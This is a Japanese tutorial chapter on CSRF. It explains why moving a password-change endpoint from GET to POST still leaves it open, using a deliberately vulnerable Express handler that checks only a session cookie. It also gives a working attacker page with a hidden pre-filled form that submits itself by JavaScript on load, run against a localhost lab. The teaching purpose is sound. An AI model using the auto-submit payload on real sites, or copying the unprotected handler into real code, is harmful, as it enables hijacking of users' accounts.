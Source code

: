 # POST を使ってみる

前節では、認証機構を取り入れたとしても CSRF の脆弱性が発生することを確認しました。
本節では、まず前節のような、リンクを送信するだけで行える攻撃を無効化するために POST メソッドを導入します。その後、単純に POST メソッドを用いるだけでは、CSRF の脆弱性が存在したままであることを示します。

## HTTP メソッドについて

GET や POST といった HTTP メソッドについて概要を説明します。
HTTP メソッドは、指定した URL にどのような操作を要求するのかを、クライアントがサーバー側に伝えるものです。たとえば、GET メソッドを使った場合は、指定した URL のリソースを取得すること求めていますし、POST メソッドを使った場合は、指定した URL に対して、なんらかの情報を送信して、それに紐づいた操作を行うことを求めます。

詳しくは下記の記事を参考にしてください
https://developer.mozilla.org/ja/docs/Web/HTTP/Messages
https://developer.mozilla.org/ja/docs/Web/HTTP/Methods

重要なことは、サーバー側のアプリケーションにとって HTTP メソッドはただの取り決めであり、求められた理念とは異なる処理を容易に実行できてしまうことです。理念とは異なる処理とは、例えば GET メソッドにパスワード変更の処理を紐づけるなどです。

## サンプルアプリの説明

サンプルアプリは以下のような実装です

```ts
// /3-post-password-change-dangerous というパスに post メソッドのリクエストがきたときにこの処理を実行する
router.post("/3-post-password-change-dangerous", (req, res) => {
  // cookie から sessionId をとりだし、それを検証してログイン済みかどうか確かめる
  const sessionId = req.cookies["sessionId"];
  const { newPassword } = req.body;
  if (!sessionId || !sessionIds[sessionId]) res.send("login required");
  //   新しいパスワードが送られてきているか確かめて、パスワードを更新する
  else if (typeof newPassword !== "string") res.send("newPassword is required");
  else {
    const userName = sessionIds[sessionId].userName;
    changePassword(userName, newPassword);
    res.send("password changed!");
  }
});
```

前節のコードと大きく変わったところは、HTTP メソッドが get から post になったことです。
では、このエンドポイントをどのように使うのかを確認しましょう。

## パスワード変更の正常系

ユーザーは、以下のページにアクセスします。

http://localhost:3000/3-post-password-change-dangerous

すると、フォームが表示されます。ユーザーは新しいパスワードを入力し、submit ボタンを押します。すると、http://localhost:3000/3-post-password-change-dangerous に post リクエストがとび、パスワードが変更されます。
なお、get リクエストのときは、以下のような処理が実行されています

```ts
router.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
    <form id="form" action="http://localhost:3000/3-post-password-change-dangerous" method="post">
    <input name="newPassword" type="text" value=""></input>
    <button type="submit">submit</buttion>
    </form>
    `);
});
```

## 防御の検証

POST メソッドを使ったことで、前回と同じような攻撃はできなくなっています。以下に説明します。
前回は、悪意のあるリンクをユーザーに送ることで、ユーザーがそのリンクを踏むと同時にパスワード変更のリクエストが送信され、ユーザーのパスワードが攻撃者の指定したパスワードに変更されてしまいました。
POST メソッドの場合を考えてみると、以下の二つの点から上記の攻撃ができなくなっていることがわかります。

- リンクをクリックしたときには GET リクエストが送られるため、POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと
- URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

そのため、たとえば攻撃者が以下のようなリンクをユーザーに送ったとしても、前節のように攻撃が成功することはありません。
http://localhost:3000/3-post-password-change-dangero?newPassword=evil

## 攻撃の検証

しかし、この post メソッドを使った防御はあっさりと破られます。
順番に見ていきましょう。

### URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

まず、「URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと」について攻撃側の対応策を考えます。ようは、フォームの初期値を指定できればいいのです。そして、フォームの input タグは初期値を指定できます。そのため、自分でウェブサイトを作って、フォームの初期値を指定したページを用意します。そして、submit したときの送信先を http://localhost:3000/3-post-password-change-dangero にすれば、攻撃者が指定したパスワードで更新させることが可能です。ついでに、新しいパスワードの input 要素を CSS でめっちゃ小さくしたり、透明にしてユーザーから見えなくし、submit ボタンをリンク遷移のボタンなどに見せかければ完璧でしょう。

### POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと

次に、「POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと」について対応策を考えます。
結論からいえば、javascript を使うことで、自動でフォームを送信することが可能です。フォームの初期値設定と組み合わせることで、ユーザーがリンクをクリックしてページが読み込まれた瞬間に、攻撃者が指定したパスワードに更新する POST リクエストを自動で送ることができるのです。

### 具体的な攻撃

攻撃者は、以下のようなページを用意します。

```ts
app.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
  <form id="form" action="${ORIGIN_BASE_URL}/3-post-password-change-dangerous" method="post" style="display: none;">
  <input name="newPassword" type=text value="aaaaaaa"></input>
  <button type="submit">submit</buttion>
  </form>
  <script>
      const form = document.getElementById("form")
      form.submit()
  </script>
`);
});
```

注目してほしいのは、以下の二点です。
まず、こちらでフォームの初期値を `aaaaaaa` に設定しています。

```html
<input name="newPassword" type=text value="aaaaaaa"></input>
```

次に、こちらでこのスクリプト部分が読み込まれた瞬間にフォームを送信しています。

```ts
const form = document.getElementById("form");
form.submit();
```

実際に攻撃してみましょう。以下のリンクにアクセスすると、上記のコードが実行され、パスワードが変更されたというログがでるはずです。
http://localhost:4000/3-post-password-change-dangerous
